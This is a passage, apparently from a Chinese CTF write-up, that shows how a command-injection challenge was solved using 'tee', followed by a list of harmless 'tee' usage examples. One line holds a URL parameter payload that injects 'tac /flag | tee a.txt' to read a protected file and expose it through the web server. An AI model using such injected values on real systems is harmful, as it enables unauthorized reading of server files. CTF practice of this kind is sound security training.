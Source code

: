 ```php
}
```
#### `tee`命令
```
?zypc=tac%20/flag%20|%20tee%20a.txt
```
然后访问`a.txt`就能看到flag  
Linux tee命令的实例
下面是一些tee命令的使用实例：

1. 基本用法
    ```
    echo "example output" | tee file.txt
    ```

1. 实例2：写入多个文件
    ```
    echo "example output" | tee file1.txt file2.txt file3.txt
    ```

1. 实例3：追加到文件
    ```
    echo "example output" | tee -a file.txt
    ```

1. 实例4：忽略中断
    ```
    echo "example output" | tee -i file.txt
    ```

1. 实例5：隐藏输出
    ```
    echo "example output" | tee file.txt >/dev/null
    ```

1. 实例6：使用tee命令和管道操作符
    ```
    echo "example output" | tee file1.txt | cat -n
    ```
    首先使用echo命令生成了一些输出，然后使用tee命令将这些输出写入到file1.txt文件中。然后，我们使用管道操作符|将tee命令的输出传递给cat -n命令，cat -n命令会将其输入的每一行前面加上行号。

1. 实例7：使用tee命令重定向错误输出
    ```
    command 2>&1 | tee file.txt
    ```
    使用2>&1将错误输出重定向到标准输出，然后使用tee命令将输出写入到file.txt文件中。

2. 实例8：使用tee命令在多个文件中写入相同的内容
    ```
    echo "example output" | tee file1.txt file2.txt file3.txt
    ```

    使用echo命令生成了一些输出，然后使用tee命令将这些输出写入到file1.txt，file2.txt和file3.txt三个文件中。
